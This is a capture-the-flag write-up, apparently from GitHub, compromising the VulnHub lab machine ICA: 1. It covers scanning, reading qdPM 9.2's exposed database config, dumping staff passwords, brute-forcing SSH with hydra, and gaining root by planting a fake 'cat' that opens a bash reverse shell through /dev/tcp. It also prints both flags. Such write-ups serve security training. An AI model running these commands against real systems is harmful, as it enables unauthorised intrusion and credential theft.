







<p align="center">
  
</p>

---
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - ICA: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>03.11.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Web / Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595.002 - Active Scanning: Vulnerability Scanning</b></td>
      <td>Scanning the target. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>Gaining access to the databases.yml configuration file through a vulnerable qdPM 9.2 web application</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1110.001 - Brute Force: Password Guessing</b></td>
      <td>brute-force MySQL database credentials for SSH access</td>
    </tr>
    <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059.004 - Command and Scripting Interpreter: Unix Shell</b></td>
      <td>Using the shell to execute commands and run a reverse shell via cat substitution</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid</b></td>
      <td>Privilege escalation via a setuid executable</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>User Flag</th>
    <td><code>ICA{Secret_Project}</code></td>
  </tr>
  <tr>
    <th>Root Flag</th>
    <td><code>ICA{Next_Generation_Self_Renewable_Genetics}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> Download the virtual machine image and install it in `virtualbox`:

<p align="center">
 
</p>

> Obtaining the machine's IP address - `192.168.50.156`

---
## 🕵️  Reconnaissance

> We scan the target using `nmap` in two stages and determine open ports and services running on them:

```bash

sudo nmap -p- -vv -n -T5 --min-rate=1000 192.168.50.156 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -A -n -vv 192.168.50.156 -oN scan_results

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0)

80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.48 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
|_http-favicon: Unknown favicon MD5: B0BD48E57FD398C5DA8AE8F2CCC8D90D

3306/tcp  open  mysql   syn-ack ttl 64 MySQL 8.0.26

```

> From the scan results we see the following open ports:

- `22 (ssh)` - used for ssh connections
- `80 (web)` - The web server is running. The title indicates that this is the `qdPM` application.
- `3306 (mysql)` - `MySQL` database

> Navigate to port `80` in your browser and see the `login page` for the `qdPM` application:

<p align="center">
 
</p>

> [!IMPORTANT]
`qdPM` is a free web application for project management. It uses a `MySQL` database. The application allows organizations
to track and manage their projects and tasks through a browser.

> On the login page we see the application version - `9.2`

<p align="center">
 
</p>

> Let's go to the browser and look for `vulnerabilities` associated with this version of the application:

<p align="center">
 
</p>

> Great. We've found a vulnerability where database login credentials are stored at `http://<website>/core/config/databases.yml` in the `.yml` file.

> Open the file in a browser:

<p align="center">
 
</p>

> Obtaining credentials to connect to the MySQL database - `qdpmadmin:UcVQCMQk2STVeS6J`

> Previously, when scanning the target with nmap, an open port, `3306`, was detected, which hosts the `MySQL` database. Using the credentials I received, I connected to it:

```bash

mysql -h 192.168.50.156 -u qdpmadmin -p --skip-ssl

```

> display the list of databases:

```bash

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+

```

> Connect to the `staff` database and display the list of tables in it:

```bash

MySQL [(none)]> use staff
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.001 sec)

```

> We display the information in the `user` and `login` tables:

```bash

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.000 sec)

MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.000 sec)

```

> We have all employees' `logins` and their `passwords` in `base64` encoding.

> For subsequent `brute-force ssh connections`, we'll save the logins in a text file exactly as they appear in the table, and additionally,
> write them in `lowercase`.

> [!IMPORTANT]
On `Linux/Unix` systems, usernames are case sensitive. `User` and `user` can be **different users**.
Therefore, `User` may not equal `user` when connecting via `ssh`. Therefore, we include both variants in the dictionary.

> We decode the passwords from `base64` and save them to a text file. The output is `two files`:

```bash

cat users_qdp.txt

Smith
Lucas
Travis
Dexter
Meyer
smith
lucas
travis
dexter
meyer

```
```bash

cat pass_qdp.txt

suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy

```

---
## 🔓 Initial Access

> Run brute force via `ssh` through `hydra`:

```bash

hydra -L users_qdp.txt -P pass_qdp.txt ssh://192.168.50.156

```
> Result:

<p align="center">
 
</p>

> Great. We have two valid accounts for connecting to the system via `ssh`. For further steps, we only need one.

> Connect via ssh as user travis:

```bash

ssh travis@192.168.50.156

```
```bash

travis@debian:~$
travis@debian:~$ id
uid=1002(travis) gid=1002(travis) groups=1002(travis),33(www-data)

```

> We take the `first flag` in the user's home directory - `/home/travis`

```bash

travis@debian:~$ cd ~
travis@debian:/home/travis$ cat user.txt

ICA{Secret_Project}

travis@debian:/home/travis$

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>ICA{Secret_Project}</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️  Vertical  Privilege Escalation

> Let's find all binary files with the `SUID` bit set in the system:

```bash

travis@debian:/home/travis$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16816 Sep 25  2021 /opt/get_access
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 35040 Jul 28  2021 /usr/bin/umount
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 182600 Feb 27  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 71912 Jul 28  2021 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Jul 28  2021 /usr/bin/mount
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

> `/opt/get_access` - is not a standard system file. Let's check its type:

```bash

file /opt/get_access

get_access: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=74c7b8e5b3380d2b5f65d753cc2586736299f21a, for GNU/Linux 3.2.0, not stripped

```

> As we can see from the output, this is a `64-bit ELF` executable with `dynamic linking` and `debugging symbols` included (`not stripped`).

> We will download this file to our local machine for further analysis:

```bash

travis@debian:/opt$ python3 -m http.server 1111 # victim

```
```bash

wget http://192.168.50.156:1111/get_access # attacker

```

> Open the file in `Ghidra` for reverse engineering and see the `main()` function:

<p align="center">
 
</p>

> In the line `system("cat /root/system.info")`, we can see that the program executes the cat command `without specifying the full (absolute) path`.

> This means we can create `our own malicious executable named cat` , for example, one that spawns a `reverse shell` and place it early in the `PATH environment`
> variable to `hijack` the execution flow.

> Create a malicious file `cat` with `reverse shell` code in the user home directory and make it executable:

```bash

echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.50.127/4141 0>&1' > cat && chmod +x cat

```

> We replace the path with the user home directory in the `PATH` variable:

```bash

travis@debian:/home/travis$ export PATH=/home/travis:$PATH

travis@debian:/home/travis$ echo $PATH | tr : '\n'

/home/travis
/usr/local/bin
/usr/bin
/bin
/usr/local/games
/usr/games
travis@debian:/home/travis$

```

> On the second terminal, start the listener on port `4141` and run the file `get_access`:

```bash

travis@debian:/opt$ ./get_access

```
```bash

nc -lvnp 4141

Listening on 0.0.0.0 4141
Connection received on 192.168.50.156 55404

root@debian:/opt# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),1002(travis)

root@debian:/opt#

```

> We take the `last flag` in the root directory - `/root`

```bash

root@debian:/root# base64 root.txt | base64 -d
base64 root.txt | base64 -d

ICA{Next_Generation_Self_Renewable_Genetics}

root@debian:/root#

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>ICA{Next_Generation_Self_Renewable_Genetics}</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the target system `ICA:1`, a vulnerable version of the web application `qdPM 9.2` was discovered, which provided unauthorized access to
the `configuration file databases.yml` located at `http://192.168.50.156/core/config/databases.yml`.

The credentials obtained from this file allowed connection to the `MySQL database`, from which user login `names` and `passwords` were extracted. One of the retrieved
accounts (`travis`) was valid for `SSH authentication`, granting `Initial Access` to the system.

During reconnaissance, a binary file named `get_access` was found with the `SUID bit` set under the `root` user. `Reverse engineering` of the binary revealed that it
executed the `cat` command without specifying an `absolute path`. This behavior made it possible to `inject` a malicious replacement of the `cat` command and modify
the `PATH` environment variable to include a custom directory.

As a result, executing `get_access` led to `Privilege Escalation` and a `root shell`, resulting in full `System Compromise`.
